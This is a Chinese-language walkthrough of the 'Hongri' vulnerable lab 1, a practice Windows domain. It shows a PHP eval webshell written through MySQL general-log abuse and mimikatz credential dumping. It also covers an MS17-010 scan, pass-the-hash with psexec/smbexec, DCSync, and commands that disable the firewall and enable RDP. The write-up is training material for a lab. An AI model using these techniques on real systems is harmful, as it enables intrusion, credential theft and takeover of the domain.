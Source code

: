 # 红日靶场 1 Walkthrough

## 环境搭建


环境中的三台机器 ip 已经提前分配好了，所以需要在 vm 里创建一个 192.168.52.0 的 host-only 网络，然后再给 win7 入口机添加一张 NAT 出网网卡。

| 主机 | 网络 |
| --- | --- |
| win7 | 192.168.52.143, 192.168.182.36 (外) |
| win2003 | 192.168.52.141 |
| win2008 | 192.168.52.138 |

查看给的拓扑图：

![](https://cdn.silente.top/img/202309281401207.png)

依次启动三台机器，然后在 win7 这里使用 phpstudy 启动 web 服务

![](https://cdn.silente.top/img/202309281403596.png)

然后需要在 win7 外网机中添加 host: `192.168.52.138  god.org`

## 攻击路径

首先使用 kscan 扫一下 web 服务 (182.1 是物理机)

![](https://cdn.silente.top/img/202309281407604.png)

是一个 phpstudy 2014 的探针服务，网上搜搜[利用方法](https://www.freebuf.com/articles/web/252274.html)，可以看到 mysql 弱密码 这个入口路径已经烂大街了

![](https://cdn.silente.top/img/202309281412986.png)

用 dirsearch 能扫出来 phpmyadmin 这个路由，root/root 进入，尝试直接写入

![](https://cdn.silente.top/img/202309281425006.png)

secure_file_priv = null，无法直接写入文件；可以使用日志来解析 php

```sql
show variables like 'general_log'; -- 查看日志是否开启
set global general_log=on; -- 开启日志功能
show variables like 'general_log_file'; -- 看看日志文件保存位置
set global general_log_file='C:/phpStudy/WWW/.se.php'; -- 设置日志文件保存位置
show variables like 'log_output'; -- 看看日志输出类型 table或file
set global log_output='table'; -- 设置输出类型为 table
set global log_output='file'; -- 设置输出类型为file
```

```sql
select "<?php echo 'Yes!';@eval(@$_POST['SilentE']); ?>" -- php 马
```
  
![](https://cdn.silente.top/img/202309281434343.png)


上线 viper，尝试内置的提权，🐂的，一下子就有 SYSTEM 权限了，都不知道怎么提的hh。
![](https://cdn.silente.top/img/202309281642267.png)




转移进程到 64 位

![](https://cdn.silente.top/img/202309300151589.png)

![](https://cdn.silente.top/img/202309300152734.png)

这样就能使用 64 位的 `load kiwi` 来加载 mimikatz，然后使用 `creds_all` 来拿密码，当然也可以直接传个上去操作

```shell
mimikatz_x64.exe "log" "privilege::debug" "sekurlsa::logonpasswords" exit 
```

![](https://cdn.silente.top/img/202309281656453.png)

关闭防火墙：`netsh advfirewall set allprofiles state off`

配置内网代理，使用 Proxifier 代理访问。

![](https://cdn.silente.top/img/202309281607208.png)

然后上传 kscan，扫一下内网。 

```shell
kscan.exe -t 192.168.52.141,192.168.52.138 -o out.txt
```

![](https://cdn.silente.top/img/202309281519462.png)


发现开了 445，扫一下 ms17_010

```sh
use auxiliary/scanner/smb/smb_ms17_010
set rhosts 192.168.52.141 192.168.52.138
run
```

![](https://cdn.silente.top/img/202309300003257.png)

但是把 msf 的 payload 都试了个遍也打不了，估计是跟防火墙的配置有关。看到前面拿了 hash，可以试试 psexec 哈希传递。记得在此之前需要先开一个监听，用跳板机的 session 做一层转发。


![](https://cdn.silente.top/img/202309301624799.png)



![](https://cdn.silente.top/img/202309301630012.png)

可以看到能拿下域控服务器 (143)，但是 141 这个单机不知道怎么回事用 psexec 拿不下


```shell
load kiwi
kiwi_cmd lsadump::dcsync /domain:god.org /all /csv
```

但是用 smbexec 脚本又可以直接拿下。。。

![](https://cdn.silente.top/img/202309301647721.png)

然后直接远程桌面连上去

```shell
reg add "HKLM\System\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /t REG_DWORD /v portnumber /d 3389 /f
wmic RDTOGGLE WHERE ServerName='%COMPUTERNAME%' call SetAllowTSConnections 1
netstat -an|find "3389"
```

![](https://cdn.silente.top/img/202309301918569.png)


总之这个靶场就当熟悉熟悉工具吧hh


## 横向移动知识点

- [浅探内网横向移动](https://xz.aliyun.com/t/8117)
- [深入了解Psexec与SMBexec](https://www.freebuf.com/articles/system/332115.html)